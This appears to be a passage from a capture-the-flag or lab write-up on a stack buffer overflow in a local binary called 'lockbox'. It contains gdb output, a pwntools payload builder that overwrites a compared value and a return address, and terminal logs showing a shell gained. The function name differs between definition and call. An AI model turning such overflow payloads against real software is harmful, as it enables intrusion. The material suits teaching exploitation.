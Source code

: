 ```
=> 0x00000000004011ce <+24>:    cmp    $0xdaddb0dd,%eax
   ...omitted for brevity...
   0x00000000004011f7 <+65>:    ret
End of assembler dump.
(gdb) $ info registers eax
eax            0x61616161          1633771873
```

It's overwritten by the first four characters of data, so, by putting `0xdaddb0dd` after the key and padding, we should be able to pass the compare
```python
def secretPayload():
	pad16 = b"".join([struct.pack("B", 0x41) for i in range(0,16)])
	keyAddr = b"".join([struct.pack("B", 0x50), struct.pack("B", 0x40), struct.pack("B", 0x40), struct.pack("B", 0x00)])
	pad0 = b"".join([struct.pack("B", 0x00) for i in range(0,4)])
	secret = b"".join([struct.pack("B", 0xdd), struct.pack("B", 0xb0), struct.pack("B", 0xdd), struct.pack("B", 0xda)])
	pad44 = b"".join([struct.pack("B", 0x42) for i in range(0,44)])
	win = b"".join([struct.pack("B", 0xb6), struct.pack("B", 0x11), struct.pack("B", 0x40), struct.pack("B", 0x00)])
	return pad16 + keyAddr + pad0 + secret + pad44 + win + pad0
```

```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 keytest.py
[*] Switching to interactive mode
Breakpoint 1, 0x00000000004011ce in win ()
(gdb) $ info registers eax
eax            0xdaddb0dd          -623005475
(gdb) $ c
Continuing.
[Detaching after vfork from child process 245166]
$ 
[*] Stopped process '/bin/bash' (pid 245077)
```

When ran without gdb
```python
def testRun():
	p =  process('./lockbox')
	d = p.recvuntil(">")
	pld = secretPld()
	p.sendline(pld)
	p.interactive()
```
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 keytest.py
[*] Switching to interactive mode
 
$ whoami
kali
$ pwd
/home/kali/Desktop/4-Week
$  zsh: suspended (signal)  python3 keytest.py
```
